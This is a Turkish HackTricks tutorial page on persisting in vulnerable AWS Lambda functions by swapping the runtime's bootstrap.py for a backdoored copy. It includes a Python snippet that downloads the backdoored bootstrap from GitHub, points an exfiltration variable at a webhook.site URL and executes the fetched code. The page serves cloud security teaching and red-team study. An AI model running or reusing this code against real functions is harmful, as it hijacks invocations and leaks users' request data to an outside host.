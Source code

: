# AWS - Lambda İsteklerini Çalmak

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Lambda Akışı

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, konteynerin dışındaki bir süreçtir ve **init** sürecine **çağrılar** gönderir.
2. Init süreci, bazı ilginç uç noktaları açığa çıkararak **9001** portunu dinler:
* **`/2018-06-01/runtime/invocation/next`** – bir sonraki çağrı olayını al
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – çağrı için işleyici yanıtını döndür
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init sürecinden çağrıları alıp kullanıcı kodunu çağıran bir döngüye sahiptir (**`/next`**).
4. Son olarak, **bootstrap.py** yanıtı init'e gönderir.

Bootstrap, kullanıcı kodunu bir modül olarak yükler, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütme işlemi aslında bu süreçte gerçekleşir.

## Lambda İsteklerini Çalmak

Bu saldırının amacı, kullanıcı kodunu, savunmasız isteği işleyen **`bootstrap.py`** süreci içinde kötü niyetli bir **`bootstrap.py`** süreci çalıştırmaya zorlamaktır. Bu şekilde, **kötü niyetli bootstrap** süreci, istekleri işlemek için init süreciyle **konuşmaya başlayacak** ve **meşru** bootstrap, kötü niyetli olanı çalıştırarak **tuzağa düşecek**, böylece init sürecine istek sormayacaktır.

Bu, kullanıcının kodunun meşru **`bootstrap.py`** süreci tarafından yürütüldüğü için basit bir görevdir. Bu nedenle saldırgan şunları yapabilir:

* Init sürecine mevcut çağrının sahte bir sonucunu gönderin, böylece init, bootstrap sürecinin daha fazla çağrı beklediğini düşünsün.
* Bir istek **`/${invoke-id}/response`**'a gönderilmelidir.
* Invoke-id, meşru **`bootstrap.py`** sürecinin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülü kullanılarak (burada [önerildiği gibi](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`**'e istek yaparak (burada [önerildiği gibi](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)) elde edilebilir.
* Bir sonraki çağrıları işlemek için kötü niyetli bir **`bootstrap.py`** çalıştırın.
* Gizlilik amacıyla, lambda çağrı parametrelerini saldırganın kontrolündeki bir C2'ye göndermek ve ardından istekleri normal şekilde işlemek mümkündür.
* Bu saldırı için, sistemden veya [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)'dan **`bootstrap.py`**'nin orijinal kodunu almak, kötü niyetli kodu eklemek ve mevcut lambda çağrısından çalıştırmak yeterlidir.

### Saldırı Adımları

1. Bir **RCE** zafiyeti bulun.
2. **Kötü niyetli** bir **bootstrap** oluşturun (örneğin [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. Kötü niyetli bootstrap'i **çalıştırın**.

Bu işlemleri kolayca gerçekleştirebilirsiniz:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher) adresine bakın.

## Referanslar

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}
